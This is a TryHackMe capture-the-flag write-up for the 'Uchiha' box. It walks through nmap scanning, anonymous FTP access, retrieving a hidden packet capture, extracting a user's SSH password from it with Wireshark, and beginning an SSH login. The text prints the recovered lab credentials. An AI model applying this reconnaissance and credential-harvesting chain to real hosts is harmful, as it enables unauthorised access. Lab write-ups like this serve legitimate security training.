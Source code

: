 # Uchiha CTF - Tryhackme writeup



## Make more order

Create a folder for this Challenge where all investigation files will be stored using `mkdir`, and then get into with `cd`

```bash
mkdir uchiha_folder
cd uchiha_folder
```
## Scanning the box 


Use `nmap` in order to scan the box :
 
```bash
nmap  -sC -sV 10.10.02.98 -oN nmap_scan.log

```
Seems like the box is up but blocking our ping probes,
so we have to use `-Pn`

```bash
nmap  -sC -sV -Pn 10.10.02.98 -oN nmap_scan.log
```

```
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            69 Nov 05 13:03 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.98.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
```

We can see that there is open ports `20,21,22`.
So ports `20 and 21` are for FTP, port `22` is for SSH. From `nmap`'s result we know that FTP service has anonymous-access enabled!
```
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
## Explore the FTP service

Connect to the FTP service using this command-line client.

```
ftp 10.10.02.98
Connected to 10.10.02.98.
220 (vsFTPd 3.0.3)
Name (@.@.@.@:hisoka): anonymous
331 Please specify the password.
Password:
```



For anonymous  there is no password needed, so leave it empty and clic `Enter`

```
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```



We are in, so use `ls` to view the files.

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          7372 Nov 05 19:19 message.txt
226 Directory send OK.
```

Interesting!! we found file named `message.txt`. It can be usefull, need to see it's content.
Get it with command `get`.

```
ftp> get message.txt
local: message.txt remote: message.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for message.txt (7372 bytes).
226 Transfer complete.
7372 bytes received in 0.00 secs (38.0026 MB/s)
ftp> 
```  

When returning to our folder `uchiha_folder`, we find the `message.txt` file. 
Using `cat` or `strings`  commands, we figure out that the file is a message from the admin.
This make as more curiouse to search for hidden things.


Now we have to acctivate `sharingan level 1` to see some hidden files.

Using `ls -a`  we can see all hidden files in the FTP's folder.

```
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Nov 05 19:30 .
drwxr-xr-x    2 ftp      ftp          4096 Nov 05 19:30 ..
-rw-r--r--    1 ftp      ftp         42490 Nov 05 19:29 .sniffing_test.file
-rw-r--r--    1 ftp      ftp          7372 Nov 05 19:29 message.txt
226 Directory send OK.
ftp> 
```

Yeah!! we found a file named `.sniffing_test.file`. Looks like a hidden file created while testing the box.

If we search about `sniffing tools` we find `wireshark`.   

Then here we go to `wireshark` to see the content.

```bash
wireshark .sniffing_test.file
```

We can deduce that was a pinging flood `ICMP` protocol, and other protocols.

 ![img/pcap_file_content.png](img/pcap_file_content.png)



When sorting the list by `protocol`, an `FTP-DATA` port`20` discussion between the server and the client. 

 ![img/ftp_data_protocol.png](img/ftp_data_protocol.png)


By Following the `TCP Stream` of the `FTP-DATA` protocol, we get something that looks like a `auth.log` file.

 ![img/auth_log.png](img/auth_log.png)


This is so interesting, now it's time to acctivate `sharingan level 2` and find usefull informations,
Yeah !!! found credentials `user:password`

```
itachi:W3_C@NT_S33_WH1L3_CL0S1NG_3Y3S
```



## Logging in with SSH credentials

As we saw SSH open port on this box, and `/home/itachi/.ssh` folder was created. So lets go try these credentials!!!

```bash
ssh itachi@10.10.02.98
```








